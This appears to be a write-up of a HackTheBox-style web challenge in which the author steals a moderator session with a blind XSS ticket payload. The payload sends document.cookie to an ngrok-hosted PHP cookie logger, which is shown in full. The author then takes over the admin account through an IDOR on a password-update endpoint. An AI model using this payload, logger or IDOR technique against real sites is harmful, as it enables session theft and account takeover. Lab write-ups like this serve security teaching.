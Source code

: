 ## Description
"The secret vault used by the Longhir's planet council, Kryptos, contains some very sensitive state secrets that Virgil and Ramona are after to prove the injustice performed by the commission. Ulysses performed an initial recon at their request and found a support portal for the vault. Can you take a look if you can infiltrate this system?"

Since this is a web challenge so first thing I did is bruteforcing the directories with dirsearch
![dirs](https://user-images.githubusercontent.com/43896992/169715190-b00eb4de-88c4-4694-9639-41721f1d927b.png)

in the login page the default credentials doesn't work, it gives me "INVALID USERNAME OR PASSWORD!" message.

I found a ticket submitting page in the index of the site for reporting issues to the admin
![index](https://user-images.githubusercontent.com/43896992/169715342-651fabfc-2db9-4cfe-bc72-51aa8fd8e5e0.png)

when I type anything it gives me a message says an admin will review my ticket, but unfortunately it doesn't give me any feedback.

first thing that came into my head is it vulnerable to blind xss? can I seal the admin's cookies?, so I started to build the environment for blind xss exploitation to forward the result to my own server.

I made a get.php file that saves the cookies into a jar.txt file
```
<?php
$ip = $_SERVER['REMOTE_ADDR'];
$browser = $_SERVER['HTTP_USER_AGENT'];
$fp = fopen('jar.txt' , 'a');
fwrite($fp, $ip.' '.$browser." \n");
fwrite($fp, urldecode($_SERVER['QUERY_STRING']). " \n\n");
fclose($fp);
?>
```
then I made a local php server on port 80 with ```php -S localhost:80``` and I tunneled it out to receive the connection from the vulnerable site with ngrok.

I crafted a blind xss payload ```<script> var i = new Image(); i.src="http://MYSITE.ngrok.io/get.php?q"+document.cookie; </script>```
and I acctually recieved a connection on my server

![ngrok](https://user-images.githubusercontent.com/43896992/169716208-7b2ae392-77a7-47c1-b570-8f41fd3bb0be.png)


The jar.txt file wasn't really useful because I already got the admin's cookies from the request but at least it saved it in a file for me
![jwt](https://user-images.githubusercontent.com/43896992/169716399-46748c7f-0fc3-4780-aa88-2c88df50ed0a.png)

**Cookies:**```session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI4NzEzMjB9.iTg4YroMbHGEaFrDZH8k5t4m9hHPN2nEkRQW31HMrvs```

it's a jwt, so I tried to to decode it in [jwt.io](https://jwt.io) and it turned out a moderator's cookie
![jwt io](https://user-images.githubusercontent.com/43896992/169716515-b5057b23-3770-4764-8359-10f67058d88a.png)

I injected it and now I'm a moderator
![mod](https://user-images.githubusercontent.com/43896992/169717290-e723c934-478f-4f6b-b7aa-b92819509a7b.png)

but there's nothing useful in the page, I'm not fully privileged; so, I need to escalate my user to admin not just a moderator.

Since this is another user with another session I thought I may now access the 302 pages and this attempt succeeded and it's now 200, I tried to access ```/settings``` and I found a password changing page, now I can grab the endpoint which is responsible for password changing.
![pass](https://user-images.githubusercontent.com/43896992/169717505-081da6de-4ad2-4800-bf10-2e75b1df838e.png)
![modpass](https://user-images.githubusercontent.com/43896992/169717566-408439ef-c4fb-4542-8fed-1e0be60d0671.png)

the endpoint is ```/api/users/update``` with POST method.

I tried to change the jwt ```username``` value to ```admin``` and use it as a cookie but it didn't work
![Ajwt](https://user-images.githubusercontent.com/43896992/169718032-ec4136af-3ede-4255-9404-4ff587bbdf96.png)

then I tried to use it in the paswword resetting request and it didn't word too, it was a poor idea in the first place..
![Fadmin](https://user-images.githubusercontent.com/43896992/169718195-cab5bb47-ced1-4786-b000-86a708c54d55.png)

I found a parameter ```uid``` that have value ```100```.
mostly in web apps the admin's uid is 1 or 0 so I thought about idor attack, and if it wasn't 1,0 I would bruteforce it with the intruder until I find the admin's uid

So I changed the value of the ```uid``` to ```1``` and it fortunately worked
![adminspass](https://user-images.githubusercontent.com/43896992/169717743-9496fcfc-458d-4e6d-b8a2-768186821608.png)

Then I logged with the new password in the ```/login``` page and I finally got the flag
<sub>it was in the ```/admin``` page but it was unaccessable unless you're the admin</sub>
![flag](https://user-images.githubusercontent.com/43896992/169717857-c7672396-c9ed-48db-bb52-d2cf2062d701.png)
### ```HTB{x55_4nd_id0rs_ar3_fun!!}```
